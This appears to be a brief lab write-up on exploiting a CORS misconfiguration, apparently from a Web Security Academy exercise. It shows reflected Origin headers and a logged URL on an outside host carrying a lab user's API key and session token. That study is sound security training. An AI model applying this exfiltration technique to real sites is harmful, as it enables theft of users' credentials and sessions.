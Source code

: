 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure</p>
<hr>
<code>Origin: https://example.com</code>
o
<code>Origin: http://example.com</code>
<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>

Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net
Access-Control-Allow-Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>

<p>This will store the accout detail.</p>
